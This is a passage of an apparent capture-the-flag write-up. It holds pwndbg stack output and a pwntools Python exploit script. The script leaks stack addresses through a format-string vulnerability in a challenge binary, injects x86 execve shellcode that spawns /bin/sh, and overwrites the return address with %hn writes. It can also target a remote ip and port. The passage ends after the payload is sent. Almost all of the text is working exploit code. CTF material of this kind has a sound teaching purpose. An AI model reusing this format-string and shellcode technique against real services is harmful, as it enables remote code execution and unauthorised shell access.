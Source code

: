 ```txt
13:004c│      0xffe5d34c ◂— 0x20 /* ' ' */
14:0050│      0xffe5d350 ◂— 0x0
15:0054│      0xffe5d354 ◂— 0x1733c2f1
16:0058│      0xffe5d358 —▸ 0xffe5d378 ◂— 0x0
```

#### exp

```python
#!/usr/bin/env python3
#! -*- coding : utf-8 -*-

import os, sys, base64
from pwn import *
from ctypes import *
from pwnlib.fmtstr import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.aslr = False

target='./4f59876cebb1469ca62254c162306aa5'
use_gdb = False
use_gdb = True
gdb_script='''
b *0x08048B6F
c
'''

def exp(ip = None, port = None):
    global use_gdb
    remote_run = False
    flag = None
    if ip and port:
        p = remote(ip, port)
        use_gdb = False
        remote_run = True
    else:
        p=process(target)

    if use_gdb:
        gdb.attach(p, gdbscript=gdb_script)
        pause()

    payload = base64.b64encode(b'%4$x%12$x%20$xdeadbeef')
    p.sendline(payload)
    addr = p.recvuntil(b'deadbeef')[:-8]
    ebp = int(addr[0:8], 16)

    ret_addr = ebp + 4
    shell_addr = (0xa8a0 - (ret_addr&0xFF)) & 0xFFFF
    shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + \
                b"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    payload = shellcode
    if ret_addr&0xFF > 0:
        payload += b'%' + str((ret_addr - len(shellcode))&0xFF).encode() + b'c%4$hhn%' + str(shell_addr).encode() + b'c%12$hn'
    else:
        payload += b'%' + str((ret_addr - len(shellcode))&0xFFFF).encode() + b'c%4$hn%' + str(shell_addr).encode() + b'c%12$hn'

    payload = base64.b64encode(payload)
    p.sendline(payload)
    sleep(2)
```